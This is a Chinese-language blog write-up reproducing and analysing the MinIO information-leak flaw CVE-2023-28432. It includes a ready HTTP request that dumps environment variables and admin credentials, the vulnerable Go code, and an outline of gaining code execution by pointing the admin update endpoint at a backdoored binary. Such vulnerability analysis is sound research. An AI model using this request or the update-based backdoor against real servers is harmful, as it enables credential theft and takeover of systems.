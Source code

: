 ```yaml
---
title: MinIO信息泄漏漏洞分析
date: 2023-02-04 11:36:00
updated: 2023-02-04 18:15:00
tags: [security,web]
description: 对CVE-2023-28432漏洞的复现、分析与利用
---
```




> 参考文章：
>
> https://mp.weixin.qq.com/s/GNhQLuzD8up3VcBRIinmgQ
>
> https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q
>
> 漏洞比较新，很多师傅也写了博客记录了自己的尝试，很多地方可能写的不是特别明确，这里也结合了一些自己的思考去尝试分析。

## 漏洞复现

> 可以用vulhub上配好的docker文件来起漏洞环境

```
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![image-20230401222111087](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20230401222111087.png)

得到账号密码`minioadmin/minioadmin-vulhub`

![image-20230401222515539](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20230401222515539.png)

可以成功登陆后台

MinIO后台如何RCE我们后面再说，先看一看漏洞的成因

## 漏洞分析

有漏洞版本的代码

![image-20230401230547112](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20230401230547112.png)

在集群模式下会注册`/minio/bootstrap/v1/verify`这个路由

```go
// minio/cmd/bootstrap-peer-server.go
func (b *bootstrapRESTServer) VerifyHandler(w http.ResponseWriter, r *http.Request) {
  ctx := newContext(r, w, "VerifyHandler")
  cfg := getServerSystemCfg()
  logger.LogIf(ctx, json.NewEncoder(w).Encode(&cfg))
}

// minio/cmd/bootstrap-peer-server.go
func getServerSystemCfg() ServerSystemConfig {
  envs := env.List("MINIO_")
  envValues := make(map[string]string, len(envs))
  for _, envK := range envs {
    // skip certain environment variables as part
    // of the whitelist and could be configured
    // differently on each nodes, update skipEnvs()
    // map if there are such environment values
    if _, ok := skipEnvs[envK]; ok {
      continue
    }
    envValues[envK] = env.Get(envK, "")
  }
  return ServerSystemConfig{
    MinioEndpoints: globalEndpoints,
    MinioEnv:       envValues,
  }
}
```

而根据这部分代码，由于此路由没有鉴权，请求接口就会返回环境变量。MinIO启动时会从环境变量中读取预设的管理员账号密码，所以环境变量中存在管理员账号。如果没有预设，那么就是默认的账号密码。

因此从攻击角度来说，这个信息泄漏会导致无论是否预设，都能拿到账号密码登陆。

![image-20230401230255122](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20230401230255122.png)

再看一下修复方案，也是把账号密码等从接口中移除回显，同时增加了对于接口的鉴权部分。

## 漏洞利用

### 通过自更新完成RCE

> 参考：
>
> https://y4er.com/posts/minio-cve-2023-28432/
>
> https://github.com/AbelChe/evil_minio

MinIO是Go写的项目，语言本身缺乏动态特性，不过有意思的是后台具备自更新功能，可以利用这个功能运行恶意二进制文件完成RCE。

在`/minio/admin/v3/update?updateURL={updateURL}`这个路由的功能中，可以从远程加载二进制文件，下载并更新。

具体可以利用minio的cli客户端工具，进行更新

![image-20230402110448794](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20230402110448794.png)

但是如果是一个伪造好的恶意二进制文件，运行后minio的服务就宕机了，这里可以参考https://github.com/AbelChe/evil_minio项目，思路是魔改minio，添加一个后门路由来完成不破坏原有服务，完成RCE的工作。